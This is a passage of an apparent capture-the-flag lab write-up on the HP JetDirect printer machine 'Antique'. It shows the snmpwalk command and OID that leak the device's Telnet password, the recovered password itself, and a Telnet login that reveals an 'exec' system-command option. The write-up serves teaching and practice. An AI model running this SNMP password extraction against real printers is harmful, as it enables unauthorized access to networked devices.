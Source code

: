 That shows that we have a possible vulnerability in the SNMP.

```console
HP JetDirect Printer - SNMP JetAdmin Device Password Disclosure                   | hardware/remote/22319.txt
```

### SNMP

Looking at the file we see that the SNMP server is providing the Telnet password by launching an SNMP GET request sending the string.

We launch a simple request with `snmpwalk` to see if the server is responding.

```console
snmpwalk -v 1 -c public 10.10.11.107
```

And the response is correct:

```
iso.3.6.1.2.1 = STRING: "HTB Printer"
```

So we launch the special request that we saw in the searchsploit `txt` considering version 1 and domain public.

```console
snmpwalk -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

The response returns the password in HEX that can be converted in plain text using [CyberChef](https://cyberchef.org).

## Gaining access

We use the password to access using Telnet.

```console
Trying 10.10.11.107...
Connected to antique.htb.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
```